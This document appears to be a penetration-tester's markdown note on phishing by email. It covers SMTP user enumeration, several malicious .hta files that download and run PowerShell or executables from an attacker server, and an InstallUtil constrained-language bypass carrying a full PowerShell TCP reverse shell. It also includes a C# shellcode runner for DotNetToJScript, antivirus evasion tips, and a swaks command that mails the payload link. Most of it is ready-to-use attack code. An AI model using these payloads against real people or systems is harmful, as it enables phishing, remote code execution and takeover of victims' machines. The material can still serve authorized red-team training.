

## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted by CLM. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```


For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!


**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**.hta > CLMBypass > NishangRevShell**
- Basically craft a hta that directs the victim to download the CLMBypass exe from your apache2 server
- Within this CLMBypass is an AMSI bypass that is downloaded from your apache2 server and then executing a somewhat obfuscated NishangRevShell (change the var names)
- The .hta code below
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell iwr -uri http://192.168.45.193/irs.exe -Outfile C:\\Windows\\tasks\\irs.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /U C:\\Windows\\tasks\\irs.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
The CLMBypass excerpt below
```csharp
String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.193/amsi.txt') | IEX;";
            String cmd2 = "$cli = New-Object System.Net.Sockets.TCPClient('192.168.45.193',443);$str = $cli.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $str.Read($bytes, 0, $bytes.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$str.Write($sbyte,0,$sbyte.Length);$str.Flush()};$cli.Close()";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
```


**C# Shellcode Runner + DOTNET2JS**
- hmm stealthy? No Powershell at least
- Spin up the dotnet2js sln file; Remember to comment out the dotnet v2 line in Program.cs of the main project
- In the ExampleAssembly's TestClass.cs, put the following code. Compiled in x64

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = <shellcode here x64>;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}

```


### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```